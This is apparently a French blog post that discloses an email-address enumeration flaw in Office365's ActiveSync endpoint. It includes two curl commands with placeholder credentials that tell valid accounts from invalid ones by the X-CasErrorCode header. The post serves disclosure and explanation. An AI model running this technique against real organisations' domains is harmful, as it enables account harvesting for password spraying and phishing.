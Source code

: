 ```yaml
---
layout: post
title: Office365 / Fuite de données - Enumération d'adresses mail valides
tags: [Office365 Sécurité Cloud]
---
```


Le service ActiveSync d'Office365 présente une faille permettant de vérifier la validité des adresses mail d'un domaine (si l'adresse mail est utilisée en tant qu'identifiant). Les retours HTTP sont en effet différents en fonction de l'existence ou non d'un identifiant spécifique.

Ce problème a initialement été signalé ici : [https://www.sec-1.com/blog/2017/office365-activesync-username-enumeration](https://www.sec-1.com/blog)

Prévenu par l'auteur fin Juin 2017, Microsoft n'a pas jugé ce problème suffisamment critique pour prévoir un correctif.

L'url Activesync d'Office365 (https://outlook.office365.com/Microsoft-Server-ActiveSync) ne semble par ailleurs pas être protégée par un système de throttling permettant d'éviter les requêtes trop nombreuses sur une période donnée, ce qui laisse la porte ouverte à une exploitation massive.

## Exemples

**Adresse e-mail valide (prenom.nom@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS \
-H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
<pas de retour>
```

**Adresse e-mail inexistante (prenom.nom.bidon@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom.bidon@mondomaine.fr:motdepassebidon' | base64); curl -v \
-X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
< X-CasErrorCode: UserNotFound
```
